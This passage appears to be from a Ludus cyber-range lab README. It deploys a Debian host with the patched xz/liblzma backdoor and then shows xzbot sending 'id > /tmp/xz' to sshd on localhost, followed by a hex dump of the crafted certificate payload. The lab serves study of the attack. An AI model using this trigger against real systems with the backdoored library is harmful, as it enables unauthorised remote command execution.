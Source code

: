 6. Set this config and force deploy it.

```bash
#terminal-command-local
ludus range config set -f config.yml --force
#terminal-command-local
ludus range deploy -t user-defined-roles --limit localhost,JD-xz-backdoor --force # Replace "EH" with your userID.
# Wait for the range to successfully deploy
# You can watch the logs with `ludus range logs -f`
# Or check the status with `ludus range status`
```

7. Explore the backdoor!

Log into the Debian server (`debian:debian`) and elevate to root.

```
sudo su -
```

Verify that the (patched) backdoored shared object is linked

```
ls -lart /usr/lib/x86_64-linux-gnu/liblzma.so.5
lrwxrwxrwx 1 root root 39 Apr  4 20:48 /usr/lib/x86_64-linux-gnu/liblzma.so.5 -> /opt/xz_backdoor/liblzma.so.5.6.1.patch
```

Use the xzbot command to send it a command

```
xzbot -addr '127.0.0.1:22' -cmd 'id > /tmp/xz'
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000060  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000c0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000100  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000110  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000120  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000130  00 00 00 00 00 00 00 00  00 00 00 01 00 00 00 00  |................|
00000140  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  34 12 00 00 78 56 00 00  |........4...xV..|
00000180  a2 ff d9 f9 ff ff ff ff  b8 ae a7 53 04 8f 5d 37  |...........S..]7|
00000190  d1 fc 3a ff 78 a3 18 de  70 4d a2 6d d1 3d 01 c8  |..:.x...pM.m.=..|
000001a0  42 b8 2c 0b 00 ce db 58  76 75 6a ba 75 c5 69 cf  |B.,....Xvuj.u.i.|
000001b0  97 0c bf c9 60 ac d9 e0  af 9d 45 7b 87 9e f4 0f  |....`.....E{....|
000001c0  b8 1a a0 0a 18 8a e3 ca  9f d6 30 ef 67 00 2f 8d  |..........0.g./.|
000001d0  39 60 45 f6 13 b5 82 b6  d4 4e 0b 16 8a 4b 40 b6  |9`E......N...K@.|
000001e0  9e b2 c7 8f f4 c0 86 e0  d8 44 68 85 06 5a 77 4b  |.........Dh..ZwK|
000001f0  11 9f e4 f1 ed 5a d2 ec  8f 1d bf 47 b9 5e a0 49  |.....Z.....G.^.I|
00000200  8c 28 de ce 0a ff 6f 47  0c 84 36 d3 00 00 00 00  |.(....oG..6.....|
00000210  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000220  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000230  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
```